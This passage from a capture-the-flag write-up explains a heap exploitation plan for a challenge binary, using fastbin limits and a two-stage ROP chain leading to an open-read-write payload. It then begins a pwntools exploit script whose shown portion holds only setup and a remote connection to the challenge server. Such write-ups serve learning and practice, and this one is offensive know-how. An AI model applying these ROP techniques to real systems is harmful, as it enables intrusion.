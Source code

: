 which means if wanted to ROP it must be from the stack frame of the `fgets` call inside the second option's function.

another thing to note is that fastbin holds a maximum size of 88 bytes chunks, which is not big enough for an ORW ROP payload. to get around this, we will write a shorter ROP payload that calls read which then followed by the bigger ORW ROP.&#x20;

here's the exploit being ran againts remote

<figure><img src="../../.gitbook/assets/Screenshot 2024-10-11 190321.png" alt=""><figcaption></figcaption></figure>

below is the full exploit:

{% code title="exploit.py" %}
```python
#!/usr/bin/env python3
from pwn import *
from ctypes import CDLL
import time

# =========================================================
#                          SETUP                         
# =========================================================
exe = './gandalf_patched'
elf = context.binary = ELF(exe, checksec=True)
libc = './libc.so.6'
libc = ELF(libc, checksec=False)
lib = CDLL("/lib/x86_64-linux-gnu/libc.so.6")
context.log_level = 'debug'
context.terminal = ["tmux", "splitw", "-h", "-p", "65"]
host, port = '103.145.226.92', 24234

def initialize(argv=[]):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript)
    elif args.REMOTE:
        context.log_level = 'info'
        return remote(host, port)
    else:
        return process([exe] + argv)

gdbscript = '''
init-pwndbg

# call to malloc
# breakrva 0x2be0

# breakrva 0x2c4f
'''.format(**locals())

```
